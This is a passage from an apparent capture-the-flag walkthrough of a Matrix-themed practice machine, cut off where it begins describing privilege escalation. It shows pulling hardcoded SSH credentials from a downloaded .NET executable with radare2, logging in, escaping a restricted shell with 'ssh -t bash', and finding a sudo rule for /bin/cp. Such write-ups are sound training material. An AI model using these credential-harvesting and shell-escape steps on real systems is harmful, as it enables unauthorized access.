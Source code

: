 ```
===============================================================
2020/09/25 19:12:28 Finished
===============================================================

## Extracting Data 

```
I tried to access the data directory and downloaded a file called data, after running file command it turned to be a ms windows executable so I tried strings command but no luck, so I used radare2 to get all strings in the program

```
kali@kali:~/Downloads$ file data
data: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows

r2 data
Metadata Signature: 0x6f8 0x10001424a5342 12
.NET Version: v4.0.30319
Number of Metadata Streams: 5
DirectoryAddress: 6c Size: 578
Stream name: MZ� 4
DirectoryAddress: 5e4 Size: 71c
Stream name: MZ� 4
DirectoryAddress: 73676e69 Size: 0
Stream name: MZ� 4
DirectoryAddress: 15c Size: 535523
Stream name: MZ� 4
DirectoryAddress: 10 Size: 49554723
Stream name: MZ� 4
[0x0040389e]> izz
....
134 0x00001480 0x00403280  17  35 (.text) utf16le ./unknowndevice64
135 0x000014a4 0x004032a4  15  32 (.text) utf16le Times New Roman
136 0x000014c4 0x004032c4   6  13 (.text) utf16le label4
137 0x000014d2 0x004032d2  16  34 (.text) utf16le guest:7R1n17yN30
....I
204 0x00002576 0x00404976   5   7 ()  utf8 rѹx.N blocks=Basic Latin,Cyrillic
205 0x0000258d 0x0040498d   4   6 ()  utf8 \a@\t blocks=Basic Latin,Combining Diacritical Marks
206 0x000025c0 0x004049c0  10  11 () ascii "';i6$Jh5c

```
I found a combination of "guest:7R1n17yN30" Immeditatly I used it to login via ssh 
## Escalation to Trinity
When I sshed to the user guest, it gave me a restricted shell so I bypassed the restriction by using this command

```
ssh guest@192.168.198.140 -p 6464 -t bash

```

I ran diffreent Enumeration scripts and found an intersting sudo privilege which allows us to run /bin/cp as a user called trinity
